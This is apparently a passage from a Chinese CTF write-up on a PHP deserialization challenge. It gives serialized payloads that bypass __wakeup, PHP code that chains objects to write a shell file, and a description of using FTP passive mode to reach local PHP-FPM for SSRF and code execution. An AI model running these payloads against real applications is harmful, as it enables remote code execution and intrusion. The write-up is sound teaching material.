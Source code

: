 但是需要绕过`__wakeup`

PHP7 < 7.0.10：反序列化时变量个数大于实际是会绕过

这种不行，但是我们可以**利用负数就可以绕过**

```
?code=O:4:"Hint":-1:{}
```

**方法2**

```php
$a=new Bypass();
$a->aaa=new Esle();
$a->str4='phpinfo';
echo serialize($a);
```

得到：

```
?code=O:6:"Bypass":2:{s:3:"aaa";O:4:"Esle":0:{}s:4:"str4";s:7:"phpinfo";}
```

看到phpinfo有`FastCGI`和这儿

```
file_put_contents($this->filename, $this->data);//代表着上传文件
```

想到了利用FTP(文件传输协议)的被动模式打FastCGI。

#### 我们先尝试写入shell

```php
$check = new Check();
$esle = new Esle();

$a = new Bypass();
$b = new Welcome();
$c = new Bunny();

$c->filename = "shell.txt";
$c->data = "123456";

$b->username = $c;
$b->bbb = $check;
$a->aaa = $esle;
$a->str4 = $b;

echo serialize($a);
```

但是无回显，不行。

####  FTP的被动模式打FastCGI

 FTP 协议的被动模式：客户端试图从FTP服务器上读取/写入一个文件，服务器会通知客户端将文件的内容读取到一个指定的IP和端口上，我们可以指定到127.0.0.1:9000，这样就可以向目标主机本地的 PHP-FPM 发送一个任意的数据包，从而执行代码，造成SSRF
